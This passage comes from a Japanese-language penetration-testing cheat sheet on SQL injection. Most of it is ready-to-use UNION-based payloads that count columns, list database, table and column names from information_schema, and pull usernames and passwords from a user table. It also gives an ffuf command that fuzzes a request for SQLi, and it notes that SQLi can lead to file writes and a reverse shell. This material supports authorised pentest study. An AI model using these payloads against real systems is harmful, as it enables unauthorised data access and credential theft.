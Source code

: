 - UNION SELECTの列挙
1. ORDER BY句を使用してクエリの数を特定する。(エラーになるまで数字を増やしていく)
```sh
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3-- # <-ここでエラーが起きたらクエリは2つと判断

# 補足
# ORDER BY以外に以下の方法でもクエリの数がわかる。(これもエラーになるまで続ける。)
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

2. Database名を列挙
```sh
-1' UniOn Select 1,2,Group_Concat(0x7c,schema_name,0x7c) FROM information_schema.schemata
```

3. table名の列挙
```sh
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
```

4. Column名の列挙
```sh
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]

'union select 1,2,3,group_concat(username),group_concat(password),6 from UserDetails; #
```

### ### 参考文書
[https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
[https://zenn.dev/riko/scraps/db85096c12145f](https://zenn.dev/riko/scraps/db85096c12145f)
[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)

---
## ## 数値型の列挙と悪用
文字型と数値型の違いは'や"がいらないのが数値型。
- SQLiの有無確認
```sh
ffuf -w /opt/work/WordLists/sqli-logic.txt -request-proto http -request request.txt -fs 1420 -replay-proxy [http://127.0.0.1:8080/](http://127.0.0.1:8080/)
```


---
## ## SQLi RCE
- 基本概念
	SQLからファイルの読み取り、書き込みが可能である。
	SQLiを利用しPHPコードを含めてWebからアクセスしリバースシェルが取得可能。
